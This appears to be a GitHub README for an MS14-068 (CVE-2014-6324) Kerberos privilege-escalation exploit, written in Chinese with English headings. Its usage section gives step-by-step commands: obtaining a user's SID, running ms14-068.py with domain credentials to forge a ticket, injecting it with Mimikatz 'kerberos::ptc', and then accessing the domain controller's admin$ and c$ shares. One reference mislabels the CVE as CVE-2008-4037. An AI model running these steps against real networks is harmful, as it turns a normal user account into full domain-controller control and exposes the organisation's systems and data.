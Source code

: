 # MS14-068

```
将普通域用户权限提升为域控权限  
（漏洞利用后，netuse \\swg.server.com\c$可以直接访问域控的网络资源
```

Vulnerability reference:
 * [MS14-068](https://technet.microsoft.com/library/security/ms14-068)
 * [CVE-2008-4037](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6324)
 
## Usage

域管理员:DCwin03  域名:demo.com  普通域用户:hx

登录普通域用户hx，cmd中输入"whoami/user"获取sid  
demo/hx   S-1-5-21-3813283032-1038476579-1047458262-1110
  
![x1](img/x1.png)  
![x2](img/x2.png)  

退出域用户hx，登录本地用户123  
```
python ms14-068.py -u hx@demo.com -p pwd_of_hx -s S-1-5-21-3813283032-1038476579-1047458262-1110 -d DCwin03.demo.com  
```
![x3](img/x3.png)
![x4](img/x4.png)  
```
c:\User\123>Mimikatz.exe "kerberos::ptc TGT_hx@demo.com.ccache" exit  
  
net use \\DCwin03\admin$  

dir \\DCwin03\c$
```


## References
* [Additional information about CVE-2014-6324](http://blogs.technet.com/b/srd/archive/2014/11/18/additional-information-about-cve-2014-6324.aspx)
* [深入解读MS14-068漏洞](http://www.freebuf.com/vuls/56081.html)
* [Attack Methods for Gaining Domain Admin Rights in Active Directory](https://adsecurity.org/?p=2362)
* [MS14068域控提权漏洞及其防护](http://www.php230.com/weixin1418640395.html)
* [MS14-068 privilege escalation PoC](http://www.secpulse.com/archives/2874.html)

